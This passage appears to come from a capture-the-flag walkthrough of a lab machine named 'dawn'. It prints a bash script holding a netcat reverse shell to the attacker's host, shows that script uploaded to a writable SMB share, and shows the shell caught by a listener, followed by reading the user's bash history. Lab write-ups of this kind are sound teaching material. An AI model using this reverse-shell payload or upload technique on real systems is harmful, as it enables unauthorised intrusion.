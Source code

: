 ```shell-session
[root@fooxy dawn]# cat product-control 
#!/bin/bash
nc -e /bin/sh 192.168.1.99 9999
[root@fooxy dawn]# smbclient \\\\192.168.1.165\\ITDEPT
Unable to initialize messaging context
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Aug  3 05:23:20 2019
  ..                                  D        0  Sat Aug  3 05:21:39 2019

		7158264 blocks of size 1024. 3436028 blocks available
smb: \> put product-control 
putting file product-control as \product-control (4,8 kb/s) (average 4,8 kb/s)
smb: \> dir
  .                                   D        0  Tue Sep 10 22:19:19 2019
  ..                                  D        0  Sat Aug  3 05:21:39 2019
  product-control                     A       44  Tue Sep 10 22:19:19 2019

		7158264 blocks of size 1024. 3430724 blocks available
smb: \> 
```

The shell arrives in a few seconds and meets my nc listener that gives me access to the box as the dawn user:

```shell-session
[root@fooxy dawn]# nc -lvnp 9999
Connessione da 192.168.1.165:46022

whoami
dawn
$SHELL
env
SHLVL=1
HOME=/home/dawn
LOGNAME=dawn
_=/usr/bin/nc
PATH=/usr/bin:/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/dawn
```

The .bash_history file contains a few interesting commands that were recently run from the dawn user but they reference old files that don't exist anymore, also mysql is being run as root:

```shell-session
$ cat /home/dawn/.bash_history
cat /home/dawn/.bash_history
echo "$1$$bOKpT2ijO.XcGlpjgAup9/"
ls 
ls -la 
nano .bash_history 
echo "$1$$bOKpT2ijO.XcGlpjgAup9/"
nano .bash_history 
echo "$1$$bOKpT2ijO.XcGlpjgAup9/"
sudo -l 
su 
sudo -l 
sudo mysql -u root -p 
ls -la 
nano .bash_history 
exit 
```